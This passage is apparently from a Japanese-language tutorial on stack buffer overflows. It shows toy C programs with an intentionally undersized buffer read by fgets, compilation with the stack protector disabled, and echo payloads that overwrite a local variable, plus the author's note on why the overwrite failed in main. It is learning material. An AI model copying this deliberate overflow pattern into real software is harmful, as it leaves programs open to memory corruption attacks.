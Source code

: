 このコードを32bit向け、SSP無効でコンパイル。
```
$ gcc -m32 -fno-stack-protector -o bof1 bof1.c
```
入力にAAAAAAAAAAAAAAAAを入れると変数zeroが任意の整数になる。

### ローカル変数を任意の値に書き換える
`'AAAA' = 0x41414141 = 1094795585`
入力をうまく調整すればzero変数に自由な値を設定できる。

```bof2.c
#include <stdio.h>

int main(int argc, char *argv[]) {
	char buffer[10];
	int zero = 0;

	fgets(buffer, 64, stdin);
	printf("zero = %x\n", zero);
	if (zero == 0x12345678) {
		printf("congrats!");
	}
	return 0;
}
```
コンパイル、実行
```
$ gcc -m32 -fno-stack-protector -o bof2 bof2.c
$ echo -e 'AAAAAAAAAA\x12\x34\x56\x78' | ./bof2
$ echo -e 'AAAAAAAAAA\x78\x56\x34\x12' | ./bof2
```
little endianであることに注意
追記）後日これで試してみたらsegfaultは起こせても、変数の任意の書き換えは行えなかった。標準入力からfgetsしたときには、終端文字として0x0aが追加され、int zeroの4バイト分を全て上書きしようとすると、そのすぐ次の1バイトが0x0aで書き換わってしまう。以下のようにmain関数以外の関数で書くと正常の動く... なぜなんだ...
```c
#include <stdio.h>
#include <stdlib.h>

void foo() {
	int zero = 0;
	char buffer[10];

	printf("buffer address = %x\n",(int)buffer);
	printf("zero address = %x\n", (int)&zero);

	fgets(buffer, 64, stdin);
	printf("zero = %x\n", zero);
	if (zero == 0x12345678) {
	printf("congrats!!");
	}
}
int main() {
	foo();
	return 0;
}

```
g optionをつけると、gdbでシンボルつきになる。
```
$ gcc -m32 -fno-stack-protector -g -o bof2 bof2.c
```
